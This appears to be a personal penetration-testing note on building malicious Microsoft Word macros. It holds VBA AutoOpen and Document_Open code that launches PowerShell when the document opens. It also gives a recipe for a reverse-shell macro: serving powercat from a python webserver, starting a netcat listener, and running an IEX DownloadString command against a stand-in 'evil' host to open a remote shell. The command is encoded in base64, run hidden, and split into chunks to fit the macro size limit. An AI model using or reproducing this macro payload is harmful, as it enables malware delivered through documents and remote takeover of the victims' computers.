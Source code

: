 ```yaml
---
title: Microsoft Word Macros
updated: 2025-04-29 06:45:34Z
created: 2025-04-22 13:11:05Z
latitude: -33.78668940
longitude: 150.95264980
altitude: 0.0000
---
```


## Create a macro in Microsoft Word to run **powershell**
1. Open a blank word document and save as:
File name: **mymacro.doc**
Save as type: **Word 97-2003 Document (*.doc)**
2. Go to File > View > Macros and create new macro with:
Macro name: **MyMacro**
Macros in: **mymacro.doc (document)**
```
Sub AutoOpen()
  MyMacro
End Sub
-------------------------------------------------------
Sub Document_Open()
  MyMacro
End Sub
-------------------------------------------------------
Sub MyMacro()
  CreateObject("Wscript.Shell").Run "powershell"
End Sub
```

* * *
.
## Create a **reverse shell** macro in Microsoft word
**Note:** Macros have a **255 character limit**, so the command will be condensed using **variables**. Also, **base64encode** the command to avoid issues with special characters

1. Start a python webserver to serve **powercat**, and a netcat listener
`cd /usr/share/powershell-empire/empire/server/data/module_source/management`
`python3 -m http.server 80`
`nc -nvlp <port>`


3. Encode command using base64encode.org with **UTF-16LE**. Command will download the **powercat** script and launch it with **powershell**
`IEX(New-Object System.Net.WebClient).DownloadString('http://evil/powercat.ps1');powercat -c <evil> -p <port> -e powershell`
4. Run python script to break the base64 encoded string into 50k chunks, and cat them into the variable.
```
str = "powershell.exe -nop -w hidden -e <base64string>"
n = 50
for i in range(0, len(str), n):
		print("Str = Str + " + '"' + str [i:i+n] + '"')
```
3. Copy the output of the command and update it into the macro:

```
Sub AutoOpen()
  MyMacro
End Sub
-------------------------------------------------------
Sub Document_Open()
  MyMacro
End Sub
-------------------------------------------------------
Sub MyMacro()
  Dim Str As String

      Str = Str + "base64text"
      Str = Str + "base64text"
      Str = Str + "base64text"
      
  CreateObject("Wscript.Shell").Run Str
End Sub
```
